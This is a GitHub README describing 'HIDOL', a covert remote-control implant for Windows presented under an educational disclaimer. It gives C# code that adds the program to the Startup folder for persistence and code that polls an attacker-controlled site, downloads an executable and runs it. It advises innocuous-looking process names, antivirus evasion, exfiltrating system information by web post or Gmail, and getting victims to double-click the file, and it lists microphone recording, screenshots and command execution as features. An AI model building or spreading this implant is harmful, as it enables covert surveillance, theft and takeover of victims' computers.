 <img src="https://raw.githubusercontent.com/RobinHannanJanssen/HIDOL/main/LOGO.png">
<h3>The High Doses Of Lemon Project</h3>Experimental intelligence gathering from devices compromised with HIDOL
<br>

# Disclaimer
- I, the creator, am in no way responsible for any actions that you may make using this information. 
- You take full responsibility for any action taken using this information. 
- Please take note that this document was designed for educational purposes and should never be used maliciously. 

# Introduction
Cyber threats are one of the biggest threats faced by National Security today. According to the October 2020 report of the Homeland Threat Assessment by the Department of Homeland Security, **Cyberattacks** remain the number one threat. Taken from <a href="https://www.dhs.gov/sites/default/files/publications/2020_10_06_homeland-threat-assessment.pdf" target="_blank">dhs.gov</a>:
> Cyber threats to the Homeland from both nation-states and non-state actors will remain acute. U.S. critical infrastructure faces advanced threats of disruptive or destructive cyber-attacks. Federal, state, local, tribal and territorial governments, as well as the private sector, will experience an array of cyber-enabled threats designed to access sensitive information, steal money, and force ransom payments.

In order, to combat Cyberattacks against a nation or country, an organization should have the ability to distinguish, imitate and ace the methods of present cyberattacks. 
> This is where intelligence comes in.

# How it works
Several variables contribute to how HIDOL functions properly. A combination of covert communications while maintaining stealth is the key to how HIDOL functions. Take a look at the function diagram below:

<img src="https://raw.githubusercontent.com/RobinHannanJanssen/HIDOL/main/architecture.png">

Contrary to what you think, HIDOL is not one single program. Like i said before, several variables contribute such as **covert communications**; we shall use Python as the programming language for the control panel, as Python is extremely useful and much easier when working with scraping. 

We shall have the Target application created using C#. C# is one of the best options when targeting Windows only programs, but Java or something else might do. The app should be named something unsuspicious like **Runtime Dllhost** or **webUtc**. There will be a timer with an interval of seconds to visit the referrer site and check for the latest instruction. The target app will make sure it is set to *Run on startup* without administrative rights. This is possible to do so using a simple copy:
```csharp
static void AddToStartup() {
    try {
    	string exe_path = Application.ExecutablePath;
    	string startup_path = Environment.GetFolderPath(Environment.SpecialFolder.Startup) + "\\" + System.AppDomain.CurrentDomain.FriendlyName;

        System.IO.File.Copy(exe_path, startup_path);
    }
    catch { }
}
```

Having a domain or DNS hosted is a must, as both the control panel and the target application depends on having a referrer in which communications and information posts takes place.

A normal conversation between the control panel, the referrer and the target app would need an instruction. The control panel (a.k.a you) edits a webpage (of DNS or domain) string. For example, you want the target app to download a file and run it. The comparison between the pseudo instruction and the string that the program would understand is:
- Pseudo instruction: `Download file from https://example.com/example.exe`
- String displayed on DNS: `DOWNLOAD https://example.com/example.exe`

When the target app makes the next web request, it will undergo a function like this:
```csharp
//make instruction to site and set contents to string
string instruction = Request({{YOUR_SITE}});

if (instruction.Contains("DOWNLOAD")) {
    //extract instruction from site
    string[] splitted = instruction.Split(' ');
    string url = splitted[1].ToString();

    //acknowledge file as .exe
    string path = Application.StartupPath + "\\" + "program.exe";

    //download the program
    WebClient Client = new WebClient();
    Client.DownloadFile(new Uri(url), path);

    //run file
    System.Diagnostics.Process.Start(path);
}
```

Up to this point, the downloaded program runs and captures information such as OS information and local IP address. The program then posts that information back to the DNS on a separate page, where it logs the info. The control panel would then login to that DNS or domain to gather the information which was stored. But we may also use SMTP using Gmail to send the info to your email.

# Usage
We can get very creative and add functions which will guarantee (almost) full control over the target computer. Such as the following:
- Record the device microphone for a given amount of time
- Take a screenshot of the target's computer
- Download a file and run it (e.g: .mp3, .exe)
- Run a CMD command (we would be able to find local files this way)
- Display message to the target device
- Run the browser to a specific URL
- Stay stationary/Stop any previous instruction

There is no doubt that a program with these capabilities would raise the suspicion of **Antivirus softwares**. According to <a href="https://www.virustotal.com/gui/file/005f6a68736937d2ed265a2dbee7123a72f5a47abfd2db24349d6c636c7d2439/detection" target="_blank">virustotal.com</a>, the target app had a **11** out of **70** suspicion rate (which is not that bad).

# Deployment
- Since we are using C# as the target app language, we must ensure that the target device has a .NET framework installed. We shall use framework version 3.5 as according to <a href="https://docs.microsoft.com/en-us/dotnet/framework/migration-guide/versions-and-dependencies#net-framework-35" target="_blank">docs.microsoft.com</a>, version 3.5 is already included in Windows 10, 8.1, 8 and 7. So we can be sure that the target device has already satisfied this requirement.
- To get HIDOL to work, we need a target device to compromise with. This means finding a target who uses the computer. And somehow finding a way to get the target to double-click on the target app. Otherwise, you may have physical access to the computer, you can do it yourself. All it takes is a double-click.
- From that moment you double-clicked, the target app will remain indefinitely. We may want to add an `Uninstall` function, in case the target user finds out.
- Finally, we will be able to conduct our experiment on the target device.

# Pros and Cons
### Pros
- An alternative to information gathering using port forward
- Does not require administrative rights
- Able to conduct functions as a normal user
- (Almost) free from antivirus software
- Access to files, drivers, etc
- Being able to conduct stealth

### Cons
- Tough installation
- Delayed instruction during timer interval
- Not real-time information
- Unable to conduct multiple tasks at once

# Conclusion
There are multiple ways of gathering intelligence, for government agencies, this would be a much easier task. The intelligence community seeks to reduce uncertainty and provide warning about potential threats to its National security. Per the example above, we have used a fixed environment as an operating system, and we were able to exploit that environment even with its limitations. By adding these methods to the existing capabilities of cybersecurity, we're not only bolstering our security operations effectiveness, but we are also greatly improving the safety and protection against these techniques, in the cyber world.

# Credits
- [Robin Hannan Janssen](https://github.com/robinhannanjanssen) - Lead designer

